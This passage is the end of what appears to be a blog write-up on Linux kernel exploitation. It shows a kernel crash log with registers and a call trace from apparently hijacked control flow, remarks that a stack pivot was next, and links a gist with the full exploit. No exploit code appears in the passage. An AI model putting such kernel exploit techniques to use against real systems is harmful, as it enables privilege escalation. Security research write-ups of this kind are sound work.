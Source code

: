 ```sh
[    6.263631] Code: db 52 00 89 c3 85 c0 75 22 44 89 e6 48 89 ef 4c 89 ea 83 e6 1f e8 9a fd ff ff 48 89 ef 89 c3 48 8b 85 98 03 00 00 e8 f9 da 52 <00> 89 d8 5b 5d 41 5c 41 5d c3 cc cc cc cc 66 66 2e 0f 1f 84 00 00
[    6.264357] RSP: 0018:ff7fee2640193e60 EFLAGS: 00010286
[    6.264604] RAX: ffffffff90b81805 RBX: 0000000081bc5c30 RCX: 0000000081bc5c30
[    6.264890] RDX: ff3f053e81bc5c30 RSI: 0000000081bc5c30 RDI: ff3f053e81bc5800
[    6.265183] RBP: ff3f053e81bc5800 R08: ff3f053e81bc5c30 R09: 0000000000000000
[    6.265442] R10: ff7fee2640193ee8 R11: 0000000000000000 R12: ff3f053e81bc5c30
[    6.265702] R13: ff3f053e81c05d00 R14: ff3f053e81cb8000 R15: 0000000000000000
[    6.266041] FS:  000000000056a3c0(0000) GS:ff3f053e87600000(0000) knlGS:0000000000000000
[    6.266378] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    6.266604] CR2: 00000000c319b808 CR3: 0000000001c10000 CR4: 0000000000751ef0
[    6.266901] PKRU: 55555554
[    6.267100] Call Trace:
[    6.268124]  <TASK>
[    6.268562]  ? __die+0x1e/0x60
[    6.268773]  ? page_fault_oops+0x17c/0x470
[    6.268931]  ? avc_has_extended_perms+0x233/0x520
[    6.269139]  ? exc_page_fault+0x6b/0x150
[    6.269323]  ? asm_exc_page_fault+0x26/0x30
[    6.269497]  ? e1000e_read_phy_reg_m88+0x45/0x60
[    6.269656]  ? e1000e_read_phy_reg_m88+0x46/0x60
[    6.269784]  ? tty_ioctl+0x4fc/0x8c0
[    6.269870]  ? __x64_sys_ioctl+0x92/0xd0
[    6.269985]  ? do_syscall_64+0x3f/0x90
[    6.270074]  ? entry_SYSCALL_64_after_hwframe+0x6e/0xd8
[    6.270247]  </TASK>
```

At this point, I just needed a stack pivot. 

But well, we are mostly only limited to the constraints we set for ourselves. In my next blog, I will be exploring the usage of `timerfd_ctx` which has been documented barely compared to our current approach.

Full Code for the above exploit: [Github Gist](https://gist.github.com/Utkar5hM/577aafe73a97988376b5a548d2e4df6d)